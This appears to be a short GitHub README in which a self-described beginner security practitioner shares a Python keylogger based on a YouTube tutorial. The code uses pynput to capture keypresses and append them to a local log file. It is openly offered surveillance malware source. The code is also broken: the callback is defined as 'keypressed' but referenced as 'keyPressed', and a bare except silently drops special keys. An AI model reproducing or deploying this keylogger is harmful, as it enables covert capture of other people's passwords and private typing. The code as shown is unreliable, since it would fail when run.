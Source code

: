 Hi I'm Xark-Lymen 
A cyber security practioner (newbie) from India trying out different projects on hand to increase my experience.
This is a keylogger referenced from Shaun Halverson Video on YT 

# CODE

from pynput import keyboard

def keypressed(key):
    print(str(key))
    with open("Logfile.txt", 'a') as logkey:
        try:
            char = key.char
            logkey.write(char)
        except: 
            print("error getting char")


if __name__ == "__main__":
    listener = keyboard.Listener(on_press=keyPressed)
    listener.start()
    input()
